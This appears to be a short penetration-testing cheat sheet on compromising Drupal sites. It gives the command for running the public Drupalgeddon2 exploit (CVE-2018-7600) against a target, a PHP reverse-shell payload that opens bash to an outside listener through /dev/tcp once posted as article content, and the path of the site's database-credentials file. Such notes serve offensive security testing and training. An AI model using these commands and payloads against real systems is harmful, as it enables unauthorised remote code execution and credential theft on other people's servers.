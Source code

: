 # Drupal

## Drupalgeddon (<7.58, <8.5.1, <8.46, <8.3.9) - CVE-2018-7600

All version of drupal lower than 7.58 are vulnerable to RCE.

```
ruby drupalgeddon2.rb http://<ip>/
```

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

## From Admin to Reverse Shell

Firstly we need to enable `PHP filter` on Modules tab.

![](../.gitbook/assets/drupal\_01.png)

And go to Content -> +Add Content -> Article, select **PHP code** as Text Format and finally introduce the reverse shell on the body.

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444>&1'"); ?>
```

![](../.gitbook/assets/drupal\_02.png)

Finally clicking Preview button a reverse shell is spawned to our listener.

![](../.gitbook/assets/drupal\_03.png)

## Config files

### Database Connection

```
$DRUPAL/sites/default/settings.php
```
